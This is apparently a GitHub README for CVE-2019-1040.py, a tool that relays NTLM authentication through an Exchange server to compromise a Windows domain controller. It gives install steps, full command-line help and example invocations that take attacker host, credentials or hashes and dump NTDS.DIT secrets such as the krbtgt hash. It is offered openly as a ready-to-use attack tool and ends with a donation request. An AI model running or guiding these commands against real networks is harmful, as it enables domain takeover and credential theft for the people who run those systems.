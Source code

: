 # CVE-2019-1040

Great writeup! [Exploiting CVE-2019-1040 - Combining relay vulnerabilities for RCE and Domain Admin](https://dirkjanm.io/exploiting-CVE-2019-1040-relay-vulnerabilities-for-rce-and-domain-admin/) .

So, I wrote CVE-2019-1040.py for easy to use.

You can also check out my exchange2domain repo: https://github.com/ridter/exchange2domain, another way to use exchange to get DC.

## Requirements
These tools require [impacket](https://github.com/SecureAuthCorp/impacket). You can install it from pip with `pip install impacket`.

## Usage
```
usage: CVE-2019-1040.py [-h] [-u USERNAME] [-d DOMAIN] [-p PASSWORD]
                        [--hashes HASHES] [--smb-port [destination port]] -ah
                        ATTACKER_HOST [-ap ATTACKER_PORT] -th TARGET_HOST
                        [-t TIMEOUT]
                        [--exec-method [{smbexec,wmiexec,mmcexec}]]
                        [--just-dc-user USERNAME] [--debug]
                        EX_HOSTNAME

CVE-2019-1040 with Exchange

positional arguments:
  EX_HOSTNAME           Hostname/ip of the Exchange server

optional arguments:
  -h, --help            show this help message and exit
  -u USERNAME, --user USERNAME
                        username for authentication
  -d DOMAIN, --domain DOMAIN
                        domain the user is in (FQDN or NETBIOS domain name)
  -p PASSWORD, --password PASSWORD
                        Password for authentication, will prompt if not
                        specified and no NT:NTLM hashes are supplied
  --hashes HASHES       LM:NLTM hashes
  --smb-port [destination port]
                        Destination port to connect to SMB Server
  -ah ATTACKER_HOST, --attacker-host ATTACKER_HOST
                        Attacker hostname or IP
  -th TARGET_HOST, --target-host TARGET_HOST
                        Hostname or IP of the DC
  -t TIMEOUT, --timeout TIMEOUT
                        timeout in seconds
  --exec-method [{smbexec,wmiexec,mmcexec}]
                        Remote exec method to use at target (only when using
                        -use-vss). Default: smbexec
  --just-dc-user USERNAME
                        Extract only NTDS.DIT data for the user specified.
                        Only available for DRSUAPI approach.
  --debug               Enable debug output
```

example:
```
python CVE-2019-1040.py -ah attackterip -u user -p password -d domain.com -th DCip MailServerip 
python CVE-2019-1040.py -ah attackterip -u user --hashes userhash -d domain.com -th DCip MailServerip 
```


If you only want to dump `krbtgt`, use `--just-dc-user`.

example:
```
python CVE-2019-1040.py -ah attackterip -u user -p password -d domain.com -th DCip MailServerip  --just-dc-user krbtgt
python CVE-2019-1040.py -ah attackterip -u user --hashes userhash -d domain.com -th DCip MailServerip --just-dc-user krbtgt
```

![](pics/1560509768227.jpg)

<p align="center"><strong>如果我的开源项目对你有所帮助，可以使用微信赞赏</strong></p>
<p align="center">
<img width="300" src="https://blogpics-1251691280.file.myqcloud.com/imgs/20190614190623.jpeg">
</p>